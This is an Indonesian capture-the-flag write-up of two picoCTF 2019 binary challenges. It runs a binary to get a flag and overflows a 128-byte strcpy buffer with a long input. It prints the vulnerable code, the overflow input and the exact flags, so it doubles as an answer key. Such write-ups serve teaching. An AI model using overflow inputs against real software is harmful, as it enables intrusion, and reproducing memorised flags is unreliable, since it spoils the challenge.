 # Binary Exploitation

## Penulis: [ahm4ddm](https://github.com/ahm4ddm)
## Daftar Isi:

| Binary Exploitation  |
| ------------- |
| [practice-run-1](#1-practice-run--1-50)|
| [OverFlow-0](#2-OverFlow-0-100)|


---
## 1. practice-run-1 (50)

### Soal:
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this [program](https://2019shell1.picoctf.com/static/6eba3b66e7a2b786c6c9769711d85663/run_this) to receive a flag.
    
### Pembahasan:
Pertama, kita analisis dulu jenis filenya menggunakan perintah *file*
```
$file run_this
run_this: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=49eb1de81288cfa7d67445c1b3c79ecbdf91a359, not stripped

```
hint dari soal yaitu jalankan program.
```
$./run_this
bash: ./run_this: Permission denied
```
ganti hak akses dengan perintah 
```
$chmod +x run_this

```
lalu jalankan program. flag akan tampil.
```
$./run_this
picoCTF{g3t_r3adY_2_r3v3r53}
```
Sebenarnya ada cara lain yaitu dengan perintah *strings* dimana dengan perintah itu akan menampilkan seluruh strings yang ada di program.
```
$strings run_this
...
...
picoCTF{g3t_r3adY_2_r3v3r53}
...
...

```
<details>
	<summary>Flagnya</summary>

	picoCTF{g3t_r3adY_2_r3v3r53}

</details>  

## 2. OverFlow 0 (100)

### Soal:
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln) and get a flag. Its also found in /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6 on the shell server. [Source](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln.c).

### Penyelesaian:
kita download source code dulu. setelah dianalisis program meminta inputan dari kita. serta program ukuran 32bit.

yang menarik dari source code adalah
```
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

```
panjang array char buf didefinisikan sebagai 128, jadi jika didalam memori sebesar 128 byte. disini terdapat bug yaitu *strcpy* dimana bug itu tidak mengecek ukuran array, maka bisa terjadi overflow. dalam kasus ini kita bisa melakukan overflow untuk mendapatkan flag.
kita buat inputan sebanyak 129 + 4 = 133.   
kenapa ditambah 4? karena programnya 32bit.
kita login di shell [picoctf](https://2019webshell1.picoctf.com)
```
ahm4d@pico-2019-shell1:~$ cd /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6
ahm4d@pico-2019-shell1:/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6$ ls -la
total 92
drwxr-xr-x   2 root       root          4096 Sep 28  2019 .
drwxr-x--x 684 root       root         69632 Oct 10  2019 ..
-r--r-----   1 hacksports overflow-0_5    27 Sep 28  2019 flag.txt
-rwxr-sr-x   1 hacksports overflow-0_5  7644 Sep 28  2019 vuln
-rw-rw-r--   1 hacksports hacksports     814 Sep 28  2019 vuln.c
ahm4d@pico-2019-shell1:/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6$ ./vuln aaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabi
picoCTF{3asY_P3a5y4a888b8e}
```
<details>
	<summary>Flagnya</summary>

	picoCTF{3asY_P3a5y4a888b8e}

</details>  

